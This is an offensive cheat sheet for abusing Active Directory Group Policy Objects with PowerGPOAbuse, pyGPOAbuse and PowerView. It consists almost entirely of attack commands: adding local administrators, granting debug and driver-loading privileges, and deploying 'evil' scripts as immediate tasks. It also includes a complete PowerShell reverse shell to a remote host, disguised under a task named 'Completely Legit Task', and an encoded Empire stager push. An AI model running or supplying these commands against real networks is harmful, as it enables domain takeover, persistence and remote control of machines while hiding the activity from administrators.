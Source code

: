 * https://github.com/rootSySdk/PowerGPOAbuse

```ps1
PS> . .\PowerGPOAbuse.ps1

# Adding a localadmin 
PS> Add-LocalAdmin -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

# Assign a new right 
PS> Add-UserRights -Rights "SeLoadDriverPrivilege","SeDebugPrivilege" -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

# Adding a New Computer/User script 
PS> Add-ComputerScript/Add-UserScript -ScriptName 'EvilScript' -ScriptContent $(Get-Content evil.ps1) -GPOIdentity 'SuperSecureGPO'

# Create an immediate task 
PS> Add-UserTask/Add-ComputerTask -TaskName 'eviltask' -Command 'powershell.exe /c' -CommandArguments "'$(Get-Content evil.ps1)'" -Author Administrator
```

#### Abuse GPO with pyGPOAbuse

```powershell
$ git clone https://github.com/Hackndo/pyGPOAbuse

# Add john user to local administrators group (Password: H4x00r123..)
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"

# Reverse shell example
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
    -powershell \ 
    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
    -taskname "Completely Legit Task" \
    -description "Dis is legit, pliz no delete" \ 
    -user
```

#### Abuse GPO with PowerView

```powershell
# Enumerate GPO
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}

# New-GPOImmediateTask to push an Empire stager out to machines via VulnGPO
New-GPOImmediateTask -TaskName Debugging -GPODisplayName VulnGPO -CommandArguments '-NoP -NonI -W Hidden -Enc AAAAAAA...' -Force
```
